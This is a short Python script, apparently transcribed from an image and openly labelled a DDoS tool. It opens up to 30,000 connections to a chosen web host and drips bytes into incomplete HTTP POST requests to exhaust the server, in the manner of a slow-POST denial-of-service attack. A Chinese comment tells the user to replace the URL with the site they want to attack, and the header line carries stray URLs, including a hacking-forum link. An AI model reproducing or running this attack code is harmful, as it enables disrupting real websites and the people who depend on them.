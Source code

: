 #!/usr/bin/env python// .ly https://sinister   hz2vAkv#aLfZ   https://hackforums.net/member.php
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
